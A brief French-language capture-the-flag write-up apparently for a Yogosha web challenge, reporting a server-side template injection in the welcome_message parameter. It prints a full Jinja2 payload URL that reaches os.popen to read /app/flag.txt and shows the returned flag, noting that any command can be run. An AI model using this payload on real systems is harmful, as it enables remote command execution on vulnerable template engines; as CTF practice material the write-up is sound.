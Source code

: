 Il y une SSTI au niveau du paramêtre welcome_message :

```
https://web5.ctf.yogosha.com/?welcome_message={%%20for%20x%20in%20().__class__.__base__.__subclasses__()%20%}{%%20if%20%22warning%22%20in%20x.__name__%20%}{{x()._module.__builtins__[%27__import__%27](%27os%27).popen(%22cat%20/app/flag.txt%22).read()}}{%endif%}{%%20endfor%20%}
```

on peu donc executer toute les commandes souhaité.

Hello, StarHack{SSTI?NOOOOOOOOOOOO} !